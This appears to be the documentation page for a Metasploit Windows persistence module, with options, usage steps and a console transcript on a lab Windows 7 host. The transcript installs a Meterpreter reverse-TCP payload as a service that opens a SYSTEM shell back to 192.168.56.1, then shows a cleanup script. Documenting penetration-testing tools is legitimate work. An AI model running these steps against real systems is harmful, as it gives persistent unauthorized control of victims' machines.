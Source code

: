 ## Description

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Options

 **REMOTE_EXE_NAME**

 The remote victim name. Random string as default.

 **REMOTE_EXE_PATH**

The remote victim exe path to run. Use temp directory as default.

 **RETRY_TIME**

The retry time that shell connect failed. 5 seconds as default.

 **SERVICE_DESCRIPTION**

The description of service. Random string as default.

 **SERVICE_NAME**

The name of service. Random string as default.

## Verification Steps

1. get session on target
2. `use exploit/windows/local/persistence_service`
3. `set payload <payload>`
4. `set lport <lport>`
5. `set lhost <lhost>`
6. `exploit`

## Scenarios

### Windows 7 SP1 x64

```
msf exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/local/persistence_service) > use exploit/windows/local/persistence_service
msf exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/local/persistence_service) > set lport 2333
lport => 2333
msf exploit(windows/local/persistence_service) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(windows/local/persistence_service) > set session 1
session => 1
msf exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.56.1:2333
[*] Running module against TEST-PC

[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\NVNvCyn.exe
[*] Creating service NePaGwA
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Sending stage (179779 bytes) to 192.168.56.101
[*] Meterpreter session 4 opened (192.168.56.1:2333 -> 192.168.56.101:52781) at 2018-10-22 17:56:21 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 4...
```

**Clean it**

```
msf exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "stop NePaGwA"
Process 6516 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "delete NePaGwA"
Process 6624 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -i -f taskkill.exe -a "/f /im NVNvCyn.exe"
Process 5636 created.
Channel 23 created.
SUCCESS: The process "NVNvCyn.exe" with PID 5180 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 4828 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 5728 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\NVNvCyn.exe
meterpreter > 
